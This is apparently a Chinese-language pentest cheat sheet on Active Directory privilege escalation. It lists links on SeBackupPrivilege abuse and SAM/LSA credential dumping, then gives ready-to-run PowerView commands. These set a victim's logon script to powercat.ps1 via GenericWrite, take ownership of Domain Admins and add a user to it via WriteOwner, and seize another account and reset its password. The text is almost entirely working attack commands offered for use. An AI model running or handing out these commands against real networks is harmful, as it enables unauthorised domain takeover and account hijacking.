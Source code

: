 ```
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#f402
```

```
https://github.com/jakobfriedl/precompiled-binaries/tree/e6f7025e75dfc906d14e2fe33d0ebc6a321ece4a
```

```
https://www.bordergate.co.uk/backup-operator-privilege-escalation/
```

推荐

```
https://gist.github.com/manesec/9e0e8000446b966d0f0ef74000829801
```

推荐

```
https://www.thehacker.recipes/a-d/movement/credentials/dumping/sam-and-lsa-secrets
```
## GenericWrite权限

```
powerview

Set-DomainObject -Identity maria -SET @{scriptpath="C:\\Windows\\System32\\spool\\drivers\\color\\powercat.ps1"}
```

### WriteOwner 组权限

```
upload PowerView.ps1
Import-Module .\PowerView.ps1

1。 设置为组所有者
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'

2. 给自己授予全部权限
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All

3. 把自己添加到dbadmin
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

### WriteOwner 用户权限

```
 . .\PowerView.ps1 //将PowerView导入
     把当前用户tom设置为claire用户的 ACL 的所有者并授予其修改密码的权限
    Set-DomainObjectOwner -Identity claire -OwnerIdentity tom
    Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword -Verbose
    设置claire的密码为Ab345678123!@#
    $cred = ConvertTo-SecureString "Ab345678123!@#" -AsPlainText -force
    Set-DomainUserPassword -identity claire -accountpassword $cred
```

